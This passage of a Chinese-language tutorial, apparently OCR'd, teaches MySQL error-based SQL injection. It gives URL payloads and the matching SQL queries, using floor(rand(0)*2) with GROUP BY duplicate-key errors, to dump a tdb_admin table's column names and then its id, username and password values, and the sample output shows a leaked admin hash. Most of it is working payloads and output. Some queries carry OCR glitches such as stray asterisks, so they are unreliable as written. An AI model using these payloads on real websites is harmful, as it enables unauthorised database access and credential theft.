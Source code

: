 

limit 0 表示要爆的位置

例如:

表tdb_admin的字段为 id,usernam,password

limit 0 = id

limit 1 = username

limit 2 = password

web语句: http://www.test.com/sql.php?id=1 and(select 1 from(select count(*)*,concat((select (select (select concat(0x7e,column_name,0x7e))) from information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

数据库语句-爆test库 tdb_admin表的字段名:

select * *from test WHERE id = 1 and(select 1 from(select* count(*),concat((select (select (select concat(0x7e,column_name,0x7e))) from information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

```plain
mysql> SELECT * FROM test WHERE id = 1 and(select 1 from(select count(*),concat((select (select (select concat(0x7e,column_name,0x7e))) from information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry '~id~1' for key 'group_key'
```

### 0x07 爆内容

注意: limit 0 表示要显示那一条数据

limit 0 表示第一条

limit 1 表示第二条

web语句: http://www.test.com/sql.php?id=1+and(select 1 from(select count(*)*,concat((select (select (select concat(0x7e,字段名,0x3a,字段名,0x3a,字段名,0x7e))) from 库名.表名 limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

数据库语句: select * *from test WHERE id = 1 and(select 1 from(select* count(*),concat((select (select (select concat(0x7e,字段名,0x3a,字段名,0x3a,字段名,0x7e))) from 库名.表名 limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

```plain
mysql> SELECT * FROM test WHERE id = 1 and(select 1 from(select count(*),concat((select (select (select concat(0x7e,id,0x3a,username,0x3a,password,0x7e))) from test.tdb_admin limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry '~1:admin:7fef6171469e80d32c0559f88b377245~1
' for key 'group_key'
```

**其他报错类似**

# **MySQL 时间盲注3种通用函数**
